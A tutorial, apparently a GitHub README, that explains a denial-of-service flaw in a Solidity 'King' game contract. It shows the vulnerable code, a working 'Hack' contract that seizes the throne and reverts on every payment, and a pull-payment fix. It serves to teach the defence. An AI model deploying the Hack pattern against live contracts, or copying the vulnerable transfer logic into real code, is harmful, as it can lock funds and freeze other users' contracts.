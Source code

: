 # DOS attack on a smart contract.

We will see how a contract  which rejects accepting ether is used to trigger a DOS attack on a smart contract .
We will also see a contract with similar functionality , but which is not vulnerable to DOS attacks.

"The King contract is a simple game where participants can become the king by sending more Ether than the current prize. The contract keeps track of the current king, the prize, and the contract owner."
```bash
contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() payable {
    owner = payable(msg.sender);
    king = payable(msg.sender);
    prize = msg.value;
  }

  receive() external payable {
    _becomeKing();
  }

  function becomeKing() external payable {
    _becomeKing();
  }

  function _becomeKing() internal {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); //transfer method sends the specified amount of Ether and reverts the transaction if the transfer fails
    king = payable(msg.sender);
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}


```




State Variables

Here, king is the address of the current king, prize is the amount of Ether needed to become the king, and owner is the contract owner.

Constructor

The constructor sets the initial owner and king to the contract creator, and the initial prize to the Ether sent during contract deployment.

Receive Function

The receive function is triggered when the contract receives Ether, calling the internal _becomeKing function to update the king.

Become King Function

Participants can also explicitly call becomeKing to attempt to become the king. The _becomeKing function checks if the sent Ether is at least the current prize, transfers the Ether to the current king, and updates the king and prize.


The Vulnerability

The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

Let's see how this vulnerability can be exploited with the Hack contract.



The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

## Exploiting this vulnerability with a hack contract
```bash
contract Hack {
constructor(address payable target) payable {
    uint prize = King(target).prize();
       (bool ok,) = target.call{value: prize}("");
        require(ok, "tx failed");
    }
fallback() external payable {

    revert();
}

function withdraw() external {
       payable(msg.sender).transfer(address(this).balance);
   }

}
```

The Hack contract exploits the vulnerability by becoming the king and then blocking any subsequent Ether transfers.The constructor sends enough Ether to the King contract to become the king.The fallback function always reverts, preventing any Ether transfer to the Hack contract, thus causing the DoS.

# Mitigating the Vulnerability

Updated version of the King contract 

```bash
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address payable public king;
    uint public prize;
    address payable public owner;

    mapping(address => uint) public pendingWithdrawals;

    event NewKing(address indexed newKing, uint prize);

    constructor() payable {
        owner = payable(msg.sender);
        king = payable(msg.sender);
        prize = msg.value;
    }

    receive() external payable {
        _becomeKing();
    }

    function becomeKing() public payable {
        _becomeKing();
    }

    function _becomeKing() internal {
        require(msg.value >= prize || msg.sender == owner, "Insufficient value to become the king");
        
        if (king != address(0)) {
            pendingWithdrawals[king] += prize;
        }
        
        king = payable(msg.sender);
        prize = msg.value;

        emit NewKing(msg.sender, msg.value);
    }

    function withdraw() public {
        uint amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds to withdraw");

        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Withdrawal failed");
    }

    function _king() public view returns (address payable) {
        return king;
    }
}
```
This updated version of the King contract includes a mitigation against the DoS with revert vulnerability. Instead of transferring Ether directly to the previous king using transfer, it uses a pull payment mechanism. The previous king can withdraw their prize at their convenience.

The mapping function in this context is used to create a record of pending withdrawals for each address that has Ether to be claimed. It ensures that Ether owed to previous kings is stored and can be withdrawn later, rather than being transferred immediately when a new king is crowned. This avoids the risk of blocking the contract if the recipient rejects the transfer.
